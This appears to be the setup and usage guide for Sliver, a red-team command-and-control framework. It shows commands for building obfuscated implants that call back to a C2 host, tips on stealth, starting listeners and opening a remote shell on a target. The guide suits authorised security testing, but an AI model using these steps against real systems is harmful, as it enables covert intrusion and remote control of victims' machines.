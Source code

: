## Server Setup

The server supports Linux, Windows, and MacOS however we recommend running the server on a Linux host, some features may be more difficult to get working on a Windows or MacOS server but all basic built-in functionality should work fine.

Download the latest [release](https://github.com/BishopFox/sliver/releases) for your platform, and just run the binary. The first time you run the server it'll need to unpack some assets, which may take a minute or two, subsequent start ups should be faster.

__NOTE:__ Sliver has two external dependancies for optional features: MinGW and Metasploit. To enable shellcode/staged payloads you need to install MinGW. To enable MSF integrations you'll need Metasploit installed.

The `Dockerfile` build of Sliver is mostly designed to run the unit tests but includes both MinGW and Metasploit. If you plan to run the server using Docker you'll need to forward the appropriate TCP ports (e.g. 80, 443, 31337) yourself.


### MinGW Setup

In order to enable shellcode/staged/DLL payloads you'll need to install MinGW on the server (clients connecting to the server do not need it installed). By default Sliver will look in the usual places for MinGW binaries but you can override this using the [environment variable](https://github.com/BishopFox/sliver/wiki/Environment-Variables) `SLIVER_CC`.

#### Linux

```
apt-get install mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

#### MacOS

```
brew install mingw-w64
```

### Metasploit Setup

We strongly recommend using the [nightly framework installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers), Sliver expects version 5 or later.

## Generating Implants

Generating implants is done using the `generate` command, you must specify at least one C2 endpoint using `--mtls`, `--http`, or `--dns`. Note that when an implant attempts to connect to an endpoint specified using `--http` it will try both HTTPS and then HTTP (if HTTPS fails). We recommend using mutual TLS (`--mtls`) whenever possible. You can also specify an output directory with `--save`, by default the implant will be saved to the current working directory.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop

[*] Generating new windows/amd64 Sliver binary
[*] Symbol obfuscation is enabled, this process takes about 15 minutes
[*] Build completed in 00:10:16
[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```

__IMPORTANT:__ The symbol obfuscation process can take 15+ mintues to complete depending on your server's CPU resources. You can skip this step with `--skip-symbols` but a lot of sketchy information will end up in the binaries that get generated. You should only use this flag if you're just playing around, or do not care about stealth.

Sliver implants are cross-platform, you can change the compiler target with the `--os` flag:

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --skip-symbols --os mac

[*] Generating new darwin/amd64 Sliver binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:00:03
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY
```

The server will also assign codenames to each generated binary i.e. `NEW_GRAPE.exe` you can rename the file to anything you need to, but these codenames will still uniquely identify the generated binary (they're inserted at compile-time). You can also view all previously generated implant binaries with the `slivers` command:

```
sliver > slivers

Name                    OS/Arch        Debug  Format
====                    =======        =====  ======
CAUTIOUS_PANPIPE        darwin/amd64   false  EXECUTABLE
LATE_SUBCOMPONENT       windows/amd64  false  SHARED_LIB
RUBBER_PRINTER          windows/amd64  true   SHARED_LIB
RACIAL_SPECTACLES       darwin/amd64   false  EXECUTABLE
MATHEMATICAL_SASH       darwin/amd64   true   SHARED_LIB
MUSHY_TRADITIONALISM    windows/amd64  false  SHARED_LIB
SICK_SPY                darwin/amd64   false  EXECUTABLE
```

If you need to re-download a previously generated implant use the `regenerate` command:

```
sliver > regenerate --save /Users/moloch/Desktop/ NEW_GRAPE

[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```


## Getting Shells

Before you can catch the shell, you'll first need to start a listener. You use the commands `mtls`, `http`, and `dns` to start listeners for each protocol (`http` is also used for HTTPS). You can use the `jobs` command to view and manage listeners running in the background.

```
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   mTLS  tcp       8888
```

In this example we're using Mutual TLS, the required certificates for setting up and securing this connection have already been generated in the background and the client certificate pair was embedded into the implant at compile-time. So to get a shell you just have to run the binary on the target.

```
[*] Session #1 PROPER_ANTHONY - 127.0.0.1:49929 (narvi.local) - darwin/amd64

sliver > use 1

[*] Active sliver PROPER_ANTHONY (1)

sliver (PROPER_ANTHONY) > ls

/Users/moloch/Desktop
=====================
.DS_Store                 6.0 KiB
.localized                0 B
PROPER_ANTHONY            6.3 MiB
```




